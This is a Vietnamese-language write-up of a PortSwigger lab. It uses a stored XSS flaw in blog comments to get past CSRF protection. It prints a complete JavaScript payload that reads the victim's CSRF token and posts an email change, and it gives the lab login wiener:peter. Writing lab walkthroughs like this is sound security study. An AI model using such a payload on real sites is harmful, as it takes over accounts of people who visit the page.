



# Write-up: Exploiting XSS to bypass CSRF defenses

### Tổng quan
Khai thác lỗ hổng Stored Cross-Site Scripting (XSS) trong chức năng comment của blog để vượt qua cơ chế bảo vệ CSRF, tự động thực hiện hành động thay đổi email của người dùng. Payload XSS sử dụng `XMLHttpRequest` để lấy CSRF token từ trang `/my-account` và gửi yêu cầu POST để đổi email, lợi dụng việc comment được hiển thị cho nạn nhân, dẫn đến thực thi mã độc và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng Stored XSS trong chức năng comment để vượt qua CSRF defenses, tự động đổi email của nạn nhân bằng cách lấy CSRF token và gửi yêu cầu POST, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Truy cập một bài viết bất kỳ trên blog và gửi comment để kiểm tra khả năng XSS:
    - Comment: `<script>alert(1)</script>`
    - Name:1111
    - Email: 1111@ginandjuice.shop
    - Website: http://www.website.com
- **Phản hồi**: Quay lại bài blog, thấy hộp thoại hiển thị 1, xác nhận lỗ hổng Stored XSS trong trường comment vì mã `<script>` được thực thi trực tiếp
    

- Đăng nhập bằng tài khoản `wiener`:`peter`, truy cập `/my-account` và thử đổi `email` :
    - **Quan sát**: Yêu cầu POST yêu cầu csrf token, lấy từ trang `/my-account`. Điều này gợi ý cần khai thác XSS để tự động lấy token và gửi yêu cầu đổi email:
        

2. **Khai thác (Exploitation)**
- Gửi comment mới với payload XSS:
    - Comment: 
        ```java
        <script>
        var req = new XMLHttpRequest();
        req.onload = handleResponse;
        req.open('get','/my-account',true);
        req.send();
        function handleResponse() {
            var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
            var changeReq = new XMLHttpRequest();
            changeReq.open('post', '/my-account/change-email', true);
            changeReq.send('csrf='+token+'&email=test@test.com')
        };
        </script>
        ```
    - Name:1111
    - Email: 1111@ginandjuice.shop
    - Website: http://www.website.com
- Cơ chế chi tiết của payload:
    - `var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send();`: Gửi yêu cầu GET đến `/my-account` để lấy HTML chứa CSRF `token`.
    - `var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];`: Trích xuất CSRF token từ HTML bằng `regex`.
    - `var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com')`: Gửi yêu cầu POST đến `/my-account/change-email` với token và email mới (`test@test.com`), thay đổi email của nạn nhân.

- **Kết quả**: 
    - Khi nạn nhân (hoặc hệ thống lab giả lập nạn nhân) xem bài blog, comment chứa `<script>` thực thi, tự động lấy CSRF token và gửi yêu cầu đổi email.
    - Đăng nhập lại tài khoản `wiener`:`peter`, truy cập `/my-account`, thấy email đã đổi thành `test@test.com`:
        

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng Stored XSS để vượt qua cơ chế bảo vệ CSRF, sử dụng `XMLHttpRequest` để lấy CSRF token và thực hiện hành động thay đổi email của nạn nhân.
- Nhận thức tầm quan trọng của việc làm sạch (sanitizing) input người dùng trong các trường như comment và triển khai CSRF defenses mạnh mẽ (như token không thể truy cập qua JavaScript) để ngăn chặn các cuộc tấn công XSS và CSRF.

### Tài liệu tham khảo
- PortSwigger: Cross-Site Scripting (XSS)

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác Stored XSS để vượt qua CSRF defenses, nhấn mạnh tầm quan trọng của việc làm sạch input người dùng và triển khai CSRF token an toàn. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*